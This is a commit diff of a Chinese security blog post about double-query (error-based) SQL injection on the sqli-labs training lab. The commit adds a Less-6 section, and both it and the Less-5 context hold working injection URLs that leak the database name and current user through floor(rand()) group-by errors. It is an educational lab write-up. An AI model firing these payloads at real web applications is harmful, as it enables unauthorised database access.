

Before and after one commit to AngieQ1/AngieQ1.github.io, a plain HTML site: page 2018/12/17/SQL注入之Double Query/index.html in a window 1280 px wide. Shown: the top 1910 px of the page at 70% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2018-12-19 22:55:26

```diff
--- a/2018/12/17/SQL注入之Double Query/index.html
+++ b/2018/12/17/SQL注入之Double Query/index.html
@@ -86,7 +86,7 @@
 <meta property="og:site_name" content="Angie&#39;s blog">
 <meta property="og:description" content="0x01 原理Double Query原理分析参考：Sql注入：双查询科普：双查询注入 当order by判断完字段数，但是union select 1,2,3,…不在页面显示返回位时。可以尝试双查询注入。 双查询注入就是嵌套子查询，简单说就是select(select)的形式。 数据库查询要么返回正确的查询结果，要么返回报错信息。双注入查询其实是一种报错查询，将我们需要的信息当作数据库错误返回。">
 <meta property="og:locale" content="default">
-<meta property="og:updated_time" content="2018-12-17T15:38:27.465Z">
+<meta property="og:updated_time" content="2018-12-19T14:55:01.666Z">
 <meta name="twitter:card" content="summary">
 <meta name="twitter:title" content="SQL注入之Double Query">
 <meta name="twitter:description" content="0x01 原理Double Query原理分析参考：Sql注入：双查询科普：双查询注入 当order by判断完字段数，但是union select 1,2,3,…不在页面显示返回位时。可以尝试双查询注入。 双查询注入就是嵌套子查询，简单说就是select(select)的形式。 数据库查询要么返回正确的查询结果，要么返回报错信息。双注入查询其实是一种报错查询，将我们需要的信息当作数据库错误返回。">
@@ -334,6 +334,8 @@
 <p>但是此时利用 union select 1,2,3 发现页面没有返回位。</p>
 <p>根据题目信息尝试双查询注入,payload:<br><strong>爆数据库名</strong><br><a href="http://43.247.91.228:84/Less-5/?id=1&#39;" target="_blank" rel="noopener">http://43.247.91.228:84/Less-5/?id=1&#39;</a> union select 1 from (select count(<em>),concat(floor(rand(0)</em>2),(database()))a from information_schema.tables group by a)b –+</p>
 <p>依据上述公式替换爆数据语句即可获取数据库信息。</p>
+<h2 id="Less-6-Double-Query-Double-Quotes-String"><a href="#Less-6-Double-Query-Double-Quotes-String" class="headerlink" title="Less-6 Double Query -Double Quotes-String"></a>Less-6 Double Query -Double Quotes-String</h2><p>这题和上一题是一样的思路，只是变成了双引号的。。</p>
+<p>套用公式，payload：<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://43.247.91.228:84/Less-6/?id=1&quot; union select  1 from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b--+``</span><br></pre></td></tr></table></figure></p>
 
 
     </div>
@@ -498,7 +500,7 @@
 
 
 
-              <div class="post-toc-content"><ol class="nav"><li class="nav-item nav-level-1"><a class="nav-link" href="#0x01-原理"><span class="nav-number">1.</span> <span class="nav-text">0x01 原理</span></a><ol class="nav-child"><li class="nav-item nav-level-2"><a class="nav-link" href="#Double-Query原理分析"><span class="nav-number">1.1.</span> <span class="nav-text">Double Query原理分析</span></a></li></ol></li><li class="nav-item nav-level-1"><a class="nav-link" href="#0x02-Sqli-labs"><span class="nav-number">2.</span> <span class="nav-text">0x02 Sqli-labs</span></a><ol class="nav-child"><li class="nav-item nav-level-2"><a class="nav-link" href="#Less-5-Double-Query-Single-Quote-String"><span class="nav-number">2.1.</span> <span class="nav-text">Less-5 Double Query- Single Quote -String</span></a></li></ol></li></ol></div>
+              <div class="post-toc-content"><ol class="nav"><li class="nav-item nav-level-1"><a class="nav-link" href="#0x01-原理"><span class="nav-number">1.</span> <span class="nav-text">0x01 原理</span></a><ol class="nav-child"><li class="nav-item nav-level-2"><a class="nav-link" href="#Double-Query原理分析"><span class="nav-number">1.1.</span> <span class="nav-text">Double Query原理分析</span></a></li></ol></li><li class="nav-item nav-level-1"><a class="nav-link" href="#0x02-Sqli-labs"><span class="nav-number">2.</span> <span class="nav-text">0x02 Sqli-labs</span></a><ol class="nav-child"><li class="nav-item nav-level-2"><a class="nav-link" href="#Less-5-Double-Query-Single-Quote-String"><span class="nav-number">2.1.</span> <span class="nav-text">Less-5 Double Query- Single Quote -String</span></a></li><li class="nav-item nav-level-2"><a class="nav-link" href="#Less-6-Double-Query-Double-Quotes-String"><span class="nav-number">2.2.</span> <span class="nav-text">Less-6 Double Query -Double Quotes-String</span></a></li></ol></li></ol></div>
 
 
           </div>
```
Also changed, not shown: index.html (+2 -0 lines).
